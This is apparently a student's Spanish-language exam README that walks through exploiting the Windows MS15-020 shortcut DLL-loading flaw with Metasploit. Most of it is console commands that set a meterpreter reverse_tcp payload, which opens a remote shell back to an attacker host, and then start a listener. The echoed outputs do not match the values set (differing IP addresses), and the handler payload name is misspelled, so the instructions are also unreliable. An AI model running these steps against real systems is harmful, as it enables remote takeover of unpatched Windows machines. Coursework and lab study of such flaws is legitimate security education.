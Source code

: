 # ciberseguridad-2019-1
Repositorio para Ciberseguridad 2019-I
Parcial Ciberseguridad 2019-1 

Juan Esteban Monsalve Echeverry

Vulnerabilidad 

MS15-020: Una vulnerabilidad en Windows podría permitir la ejecución remota de código 

Las vulnerabilidades podrían permitir la ejecución remota de código si un atacante correctamente convence a un usuario visita un sitio web especialmente diseñado, abra un archivo especialmente diseñado o abrir un archivo en un directorio de trabajo que contiene un archivo DLL especialmente diseñado. 
Publicado: marzo 10, 2015

Sistema Operativo 
Windows XP, Windows 7 

Software 
Sistema opertativo: Kali Linux 
Herramienta: 
Metaexploit 

-----------------------------------------------------------------------------------------------------------
Instructivo 
-----------

msf > use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 

msf exploit(ms15_020_shortcut_icon_dllloader) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 

msf exploit(ms15_020_shortcut_icon_dllloader) > set lhost 10.191.5.5
lhost=> 192.168.0.11 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCHOST 10.191.5.6
UNCHOST => 192.168.0.10 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCSHARE share 
UNCSHARE => share 

msf exploit(ms15_020_shortcut_icon_dllloader) > exploit

----------------------------------------------------------------------------------------------------------
use exploit/multi/handler 

set payload windows/meterpreter/reverser_tcp 

set lhost 10.191.5.6

----------------------------------------------------------------------------------------------------------
Video Demo

https://youtu.be/oq0XCedmUwI

----------------------------------------------------------------------------------------------------------

Referencias

http://da1sy.cn/2018/05/MS15-020/
https://github.com/rapid7/metasploit-framework/pull/4911
https://www.rapid7.com/db/vulnerabilities/WINDOWS-HOTFIX-MS15-020
https://www.rapid7.com/db/modules/exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 
